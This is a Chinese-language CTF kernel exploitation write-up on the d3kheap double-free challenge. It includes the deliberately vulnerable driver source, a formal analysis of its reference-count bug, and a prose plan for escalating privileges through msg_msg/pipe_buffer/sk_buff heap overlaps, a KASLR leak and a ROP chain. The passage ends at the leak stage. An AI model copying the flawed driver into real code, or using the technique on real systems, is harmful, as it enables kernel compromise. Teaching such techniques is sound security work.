








# 【pwn4kernel】Kernel Heap Double Free技术分析

## 1. 测试环境

**测试版本**：Linux-5.13.19 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.13.19/01/bzImage)

笔者测试的内核版本是 `Linux (none) 5.13.19 #1 SMP Tue Feb 24 13:02:30 CST 2026 x86_64 GNU/Linux`。

**编译选项**：开启`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_HARDENED_USERCOPY`、`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`、`CONFIG_FUSE_FS`、`CONFIG_MEMCG`、`CONFIG_MEMCG_KMEM`、`CONFIG_USERFAULTFD`、`CONFIG_SLAB_MERGE_DEFAULT`、`CONFIG_SYSVIPC`、`CONFIG_KEYS`、`CONFIG_STACKPROTECTOR`、`CONFIG_STACKPROTECTOR_STRONG`、`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/5.13.19/01/.config)。

**保护机制**：KASLR/SMEP/SMAP/KPTI

**测试驱动程序**：本程序源自 **[D^3CTF2022 - d3kheap](https://github.com/arttnba3/D3CTF2022_d3kheap)** 内核挑战，其核心漏洞源于`ref_count`全局变量初始化错误，导致分配的缓冲区可被双重释放，形成Double Free漏洞。在`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`配置启用（自动清除内存残留数据）且仅有一次Double Free原语的严格限制下，整个利用过程首先通过堆风水布局将`msg_msg`与`pipe_buffer`结构在内存中重叠，将Double Free原语转化为UAF原语，利用该原语泄露`pipe_buffer->ops`内核地址，成功绕过KASLR保护机制。接着通过精确控制管道读取字节数，使特定`pipe_buffer`具有唯一的`offset`和`len`组合，利用`msgrcv(MSG_COPY | IPC_NOWAIT)`函数扫描识别victim管道索引，释放该管道后立即堆喷`sk_buff`结构，使`msg_msg`与`sk_buff`结构重叠，通过伪造的`msg_msg`头部间接修改受害消息队列，实现越界读取同一内存页的其他`msg_msg`结构，泄露邻近消息队列地址及链表指针信息。随后利用`msgsnd`在邻近队列中构造第二个消息作为虚假`pipe_buffer->ops`地址，通过链表更新机制修改`msg_msg->m_list->next`指针，再次通过`msgrcv(MSG_COPY | IPC_NOWAIT)`越界读取虚假`pipe_buffer->ops`地址。接着再次堆喷`sk_buff`伪造`msg_msg`链表指针为泄露的邻近队列地址，通过`msgrcv`触发victim消息释放后立即堆喷`pipe_buffer`，实现从`msg_msg`/`sk_buff`重叠到`pipe_buffer`/`sk_buff`重叠的状态转移，通过精心构造的`sk_buff`堆喷修改`pipe_buffer`结构并布置ROP链，最后通过`close(pipe_fd)`系统调用关闭管道，触发`pipe_buffer->ops->release`函数执行，将控制流重定向至伪造的操作函数表并跳转到布置在`pipe_buffer`结构上的ROP链，最终完成权限提升。整个利用过程在极其受限条件下，通过堆布局、结构重叠、类型混淆、链表劫持和代码复用等多种高级技术的系统组合，展现了从单一Double Free漏洞到完整权限提升的复杂利用链，体现了内核漏洞利用的工程精度和技术深度。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on D^3CTF 2022 - d3kheap
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/spinlock.h>
#include <linux/uaccess.h>
#include <linux/version.h>

#define OBJ_ADD 0x1234
#define OBJ_EDIT 0x4321
#define OBJ_SHOW 0xbeef
#define OBJ_DEL 0xdead

static void *buf = NULL;
static int ref_count = 1;

static spinlock_t d3kheap_lock;

static unsigned int major;
static struct class *d3kheap_class;
static struct cdev d3kheap_cdev;

static int d3kheap_open(struct inode *inode, struct file *filp)
{
	pr_info("[d3kheap:] Device open.\n");
	return 0;
}

static int d3kheap_release(struct inode *inode, struct file *filp)
{
	pr_info("[d3kheap:] Device release.\n");
	return 0;
}

static long d3kheap_ioctl(struct file *file, unsigned int cmd,
			  unsigned long arg)
{
	spin_lock(&d3kheap_lock);

	switch (cmd) {
	case OBJ_ADD:
		if (buf) {
			pr_info("[d3kheap:] You already had a buffer!");
			break;
		}
		buf = kmalloc(1024, GFP_KERNEL);
		ref_count++;
		pr_info("[d3kheap:] Alloc done.\n");
		break;
	case OBJ_EDIT:
		pr_info
		    ("[d3kheap:] Function not completed yet, "
		     "because I\'m a pigeon!");
		break;
	case OBJ_SHOW:
		pr_info
		    ("[d3kheap:] Function not completed yet, "
		     "because I\'m a pigeon!");
		break;
	case OBJ_DEL:
		if (!buf) {
			pr_info("[d3kheap:] You don\'t had a buffer!");
			break;
		}
		if (!ref_count) {
			pr_info("[d3kheap:] The buf already free!");
			break;
		}
		ref_count--;
		kfree(buf);
		pr_info("[d3kheap:] Free done.\n");
		break;
	default:
		pr_info("[d3kheap:] Invalid instructions.\n");
		break;
	}

	spin_unlock(&d3kheap_lock);
	return 0;
}

struct file_operations d3kheap_fops = {
	.owner = THIS_MODULE,
	.open = d3kheap_open,
	.release = d3kheap_release,
	.unlocked_ioctl = d3kheap_ioctl,
};

static char *d3kheap_devnode(struct device *dev, umode_t * mode)
{
	if (mode)
		*mode = 0666;
	return NULL;
}

static int __init init_d3kheap(void)
{
	struct device *d3kheap_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "d3kheap");
	if (error < 0) {
		pr_err("[d3kheap:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[d3kheap:] d3kheap major number = %d.\n", major);

	d3kheap_class = class_create(THIS_MODULE, "d3kheap_class");
	if (IS_ERR(d3kheap_class)) {
		pr_err("[d3kheap:] Error creating d3kheap class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(d3kheap_class);
	}
	d3kheap_class->devnode = d3kheap_devnode;

	cdev_init(&d3kheap_cdev, &d3kheap_fops);
	d3kheap_cdev.owner = THIS_MODULE;
	cdev_add(&d3kheap_cdev, devt, 1);
	d3kheap_device =
	    device_create(d3kheap_class, NULL, devt, NULL, "d3kheap");
	if (IS_ERR(d3kheap_device)) {
		pr_err("[d3kheap:] Error creating d3kheap device!\n");
		class_destroy(d3kheap_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	spin_lock_init(&d3kheap_lock);
	pr_info("[d3kheap:] d3kheap module loaded.\n");
	return 0;
}

static void __exit exit_d3kheap(void)
{
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(d3kheap_class, MKDEV(major, 0));
	cdev_del(&d3kheap_cdev);
	class_destroy(d3kheap_class);
	pr_info("[d3kheap:] d3kheap module unloaded.\n");
}

module_init(init_d3kheap);
module_exit(exit_d3kheap);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 驱动程序架构与漏洞分析

#### 2-1-1. 模块整体架构设计

d3kheap驱动程序实现了一个简单的内核内存管理系统，其核心功能是通过字符设备接口向用户空间提供有限的内存管理能力。驱动程序采用典型的Linux内核模块架构，包含设备注册、文件操作、资源管理等标准组件，为用户空间程序提供了四个基本操作命令。这个驱动程序的简洁设计使其成为理解内核内存管理和漏洞利用机制的理想案例。

驱动程序的核心是一个1024字节的内存缓冲区，通过全局变量`buf`指针管理，配合引用计数器`ref_count`跟踪内存使用状态。整个模块通过自旋锁`d3kheap_lock`保护关键数据结构，确保在多线程环境下的数据一致性。这种设计模式在内核驱动开发中较为常见，旨在提供基本的资源管理功能，但其实现中存在的细微缺陷可能引发严重的安全问题。

#### 2-1-2. 核心数据结构与状态管理

**全局内存缓冲区**：

```c
static void *buf = NULL;        // 1024字节内存缓冲区指针
static int ref_count = 1;       // 引用计数器，初始化为1
```

**设备操作接口定义**：
驱动程序定义了四个控制命令，通过`ioctl`系统调用与用户空间交互。这些命令提供了基本的缓冲区管理功能：

```c
#define OBJ_ADD  0x1234  // 分配内存缓冲区
#define OBJ_EDIT 0x4321  // 编辑缓冲区内容（未实现）
#define OBJ_SHOW 0xbeef  // 显示缓冲区内容（未实现）
#define OBJ_DEL  0xdead  // 释放内存缓冲区
```

**状态管理机制**：
驱动程序通过引用计数机制管理内存缓冲区的生命周期。理论上，`ref_count`应该精确反映内存缓冲区的引用状态，确保内存资源的正确分配和释放。然而，这个状态管理机制存在关键的设计缺陷，特别是引用计数器的初始值设置和递减逻辑存在严重问题，为双重释放漏洞创造了条件。

#### 2-1-3. 内存操作流程分析

**内存分配流程**：
当用户进程调用`OBJ_ADD`命令时，驱动程序执行内存分配操作。这个流程涉及自旋锁保护、内存分配和引用计数更新：



**内存释放流程**：
当用户进程调用`OBJ_DEL`命令时，驱动程序执行存在缺陷的内存释放操作。这个流程的关键问题在于引用计数的管理和释放时机的控制：



#### 2-1-4. 漏洞成因与状态分析

**漏洞代码位置**：
漏洞的核心位于`d3kheap_ioctl`函数处理`OBJ_DEL`命令的逻辑中，具体是引用计数器的管理存在严重缺陷。这段代码的缺陷不仅在于逻辑错误，还在于对内核内存管理基本规则的违反：

```c
case OBJ_DEL:
    if (!buf) {
        pr_info("[d3kheap:] You don\'t had a buffer!");
        break;
    }
    if (!ref_count) {
        pr_info("[d3kheap:] The buf already free!");
        break;
    }
    ref_count--;          // 漏洞点：递减后未检查是否变为0
    kfree(buf);           // 漏洞点：无条件释放内存
    pr_info("[d3kheap:] Free done.\n");
    break;
```

**漏洞的深层分析**：

1. **引用计数初始化错误**：
   `ref_count`变量在模块加载时被初始化为1，而不是0。这个初始值导致引用计数器的基准状态错误，使得计数逻辑从一开始就存在问题。正确的引用计数管理要求初始值为0，只有当资源被分配时才递增，释放时递减，当计数回到0时才释放资源。

2. **计数递减逻辑缺陷**：
   在`OBJ_DEL`操作中，无论当前引用计数值是多少（只要不为0），都会先递减计数器，然后立即释放内存。这种设计违反了引用计数的基本原则：只有当引用计数变为0时才应该释放资源。正确的实现应该先递减计数，然后检查是否变为0，只有为0时才释放资源。

3. **内存状态与引用计数不匹配**：
   在正常的引用计数模型中，引用计数应该精确反映资源的使用情况。然而在这个驱动中，`ref_count`的初始值1并不对应任何实际的内存分配，这导致状态管理从一开始就处于不一致的状态。这种不一致性使得后续的操作都建立在错误的基础上。

4. **双重释放条件**：
   当用户进程连续调用两次`OBJ_DEL`命令时，会产生以下状态变化：
    - 第一次调用：`ref_count`从2递减到1，释放内存
    - 第二次调用：`ref_count`从1递减到0，再次释放同一块内存
      这形成了典型的Double Free漏洞条件。第二次释放时，内存可能已经被重新分配给其他对象，导致内存管理器的元数据损坏。

**内存状态的形式化描述**：

定义系统状态为三元组$$(M, R, P)$$，其中：

- $$M$$：内存状态，$$M \in \{\text{ALLOCATED}, \text{FREED}, \text{INVALID}\}$$
- $$R$$：引用计数值，$$R \in \mathbb{N}$$
- $$P$$：内存指针值，$$P \in \{\text{NULL}, \text{VALID}\}$$

初始状态：$$(M_0, R_0, P_0) = (\text{INVALID}, 1, \text{NULL})$$

操作的状态转移：

1. **OBJ_ADD操作**：

    当$$M = \text{INVALID}$$时，执行内存分配：

    $$
    \text{OBJ_ADD}: (M, R, P) \rightarrow
    (\text{ALLOCATED}, R+1, \text{VALID})
    $$

    当$$M \neq \text{INVALID}$$时，状态保持不变：

    $$
    \text{OBJ_ADD}: (M, R, P) \rightarrow (M, R, P)
    $$

2. **OBJ_DEL操作**（存在缺陷）：

    当$$M = \text{INVALID}$$或$$R = 0$$时，状态不变：

    $$
    \text{OBJ_DEL_defective}: (M, R, P) \rightarrow (M, R, P)
    $$

    当$$M \neq \text{INVALID}$$且$$R > 0$$时，释放内存但不清空指针：

    $$
    \text{OBJ_DEL_defective}: (M, R, P) \rightarrow (\text{FREED}, R-1, P)
    $$

3. **正确的OBJ_DEL操作**：

    当$$M = \text{INVALID}$$时，状态不变：

    $$
    \text{OBJ_DEL_correct}: (M, R, P) \rightarrow (M, R, P)
    $$

    当$$M = \text{ALLOCATED}$$且$$R = 1$$时，释放内存并清空指针：

    $$
    \text{OBJ_DEL_correct}: (M, R, P) \rightarrow (\text{INVALID}, 0, \text{NULL})
    $$

    当$$M = \text{ALLOCATED}$$且$$R > 1$$时，只减少引用计数：

    $$
    \text{OBJ_DEL_correct}: (M, R, P) \rightarrow (M, R-1, P)
    $$

**Double Free条件的形式化描述**：

设操作序列为$$S = [\text{OBJ_ADD}, \text{OBJ_DEL}, \text{OBJ_DEL}]$$，初始状态为$$(\text{INVALID}, 1, \text{NULL})$$，则状态转移为：

1. $$\text{OBJ_ADD}: (\text{INVALID}, 1, \text{NULL}) \rightarrow (\text{ALLOCATED}, 2, \text{VALID})$$
2. $$\text{OBJ_DEL}: (\text{ALLOCATED}, 2, \text{VALID}) \rightarrow (\text{FREED}, 1, \text{VALID})$$
3. $$\text{OBJ_DEL}: (\text{FREED}, 1, \text{VALID}) \rightarrow (\text{FREED}, 0, \text{VALID})$$

在第二次`OBJ_DEL`操作时，内存状态已经是`FREED`，但驱动程序仍然执行了`kfree(buf)`，触发了Double Free。这个操作会导致内核内存管理器的元数据损坏，可能引发系统崩溃或其他不可预测的行为。

### 2-2. 技术验证流程设计

#### 2-2-1. 技术验证总览

基于上述Double Free漏洞，可以构建一个包含七个阶段的完整技术验证流程。整个流程展示了从初始漏洞发现到完整技术验证的全过程，涉及多种内核数据结构和内存管理技术的综合应用。这个流程不仅演示了漏洞的潜在影响，更重要的是展示了如何通过系统性方法从简单漏洞构建复杂的技术验证链。



#### 2-2-2. 内存布局建立

**技术目标**：
通过调用`OBJ_ADD`分配内存缓冲区，然后调用`OBJ_DEL`释放该缓冲区，接着通过堆喷`msg_msg`结构占用释放的内存，建立可控的内存布局环境。这个阶段的目标是创建有利的内存状态，为后续的Double Free操作创造条件。

**实现细节**：

1. **内存分配与释放**：
   首先调用`OBJ_ADD`命令分配一个1024字节的内存缓冲区。驱动程序会执行`kmalloc(1024, GFP_KERNEL)`分配内存，并将`ref_count`从1递增到2。然后立即调用`OBJ_DEL`命令释放这个缓冲区。由于驱动程序的漏洞，`ref_count`从2递减到1，但指针`buf`未被清空，形成悬垂指针。此时内存缓冲区已被释放，但驱动程序认为`ref_count`为1，仍然保留对已释放内存的引用。

2. **内存占用**：
   在释放缓冲区后，立即通过`msgsnd`系统调用堆喷4096个`msg_msg`结构（0x1000次）。`msg_msg`是Linux内核中System V消息队列的核心数据结构，具有可控的大小和内容，适合用于内存布局操作。通过大量分配`msg_msg`结构，可以确保其中一个占据刚刚释放的缓冲区内存区域。堆喷操作需要精确控制时机和数量，以确保内存重用的高概率。

3. **布局优化**：
   通过精确控制堆喷的数量和时机，确保其中一个`msg_msg`结构占据之前释放的缓冲区内存区域。这种布局为后续的Double Free操作创造了条件。堆喷操作需要快速连续执行，以减少其他内核代码占用目标内存的机会。在`CONFIG_INIT_ON_ALLOC_DEFAULT_ON`配置启用的情况下，分配的内存会被自动清零，这增加了信息泄露的难度，但通过后续的结构重叠和类型混淆技术可以绕过这一保护。

**内存状态分析**：
设$$M_0$$为驱动程序分配的原始内存区域，经过释放后，该区域处于空闲状态。当堆喷`msg_msg`结构时，其中一个结构$$M_{\text{msg}}$$会占用$$M_0$$，形成：

$$
\text{Occupied}(M_{\text{msg}}, M_0) \land \text{Type}(M_{\text{msg}}) = \text{msg_msg}
$$

此时内存状态为：驱动程序中的悬垂指针`buf`指向$$M_0$$，而$$M_0$$已被`msg_msg`结构占用。这种状态为后续的Double Free操作创造了条件，因为驱动程序仍然认为自己对$$M_0$$有控制权，但实际上该内存已被重新分配。

#### 2-2-3. Double Free转化UAF

**技术目标**：
通过再次调用`OBJ_DEL`命令触发Double Free漏洞，将特定的`msg_msg`结构释放，然后堆喷`pipe_buffer`结构占用该内存，实现从Double Free到Use-After-Free（UAF）的条件转换。这个阶段的关键是将Double Free漏洞转化为更强大的UAF原语。

**实现细节**：

1. **Double Free触发**：
   再次调用`OBJ_DEL`命令，由于`ref_count`当前为1，驱动程序会再次执行`kfree(buf)`，但此时`buf`指向的内存区域已被`msg_msg`结构占用。这导致该`msg_msg`结构被释放，形成了Double Free条件。由于内存管理器的元数据可能已被破坏，这个操作会创建有利的内存状态，为后续的内存重用创造条件。

2. **内存重用**：
   在Double Free之后，立即创建480个管道，通过`pipe`系统调用堆喷`pipe_buffer`结构。`pipe_buffer`是Linux管道机制的核心数据结构，具有固定的布局和可控的字段。通过大量分配`pipe_buffer`结构，可以确保其中一个占据刚刚释放的`msg_msg`内存区域。480个管道的数量经过精心计算，以确保高概率的内存重用。

3. **结构重叠**：
   通过精确的数量控制和时序安排，确保其中一个`pipe_buffer`结构占据刚刚释放的`msg_msg`内存区域，形成`msg_msg`与`pipe_buffer`的结构重叠。这种重叠使得通过`msg_msg`接口访问内存时，实际上访问的是`pipe_buffer`结构的内容。这种类型混淆为后续的信息泄露创造了条件。

**内存状态转移**：
设目标`msg_msg`结构为$$M_{\text{msg}}$$，重叠的`pipe_buffer`结构为$$M_{\text{pipe}}$$，则状态转移为：

$$
\text{DoubleFree}(M_{\text{msg}}) \rightarrow \text{Alloc}(M_{\text{pipe}}, M_{\text{msg}})
$$

其中$$\text{Alloc}(M_{\text{pipe}}, M_{\text{msg}})$$表示$$M_{\text{pipe}}$$分配在$$M_{\text{msg}}$$原来的内存区域。这个状态转移实现了从Double Free到UAF的条件转换，为后续的信息泄露和内存控制奠定了基础。

#### 2-2-4. 信息泄露与目标定位

**技术目标**：
利用重叠的结构特性，通过`msgrcv(MSG_COPY | IPC_NOWAIT)`系统调用读取`msg_msg`结构的内容，实际上访问的是`pipe_buffer`结构，从而泄露内核地址信息，并定位目标对象。这个阶段的核心是绕过KASLR保护，为后续操作提供必要的地址信息。

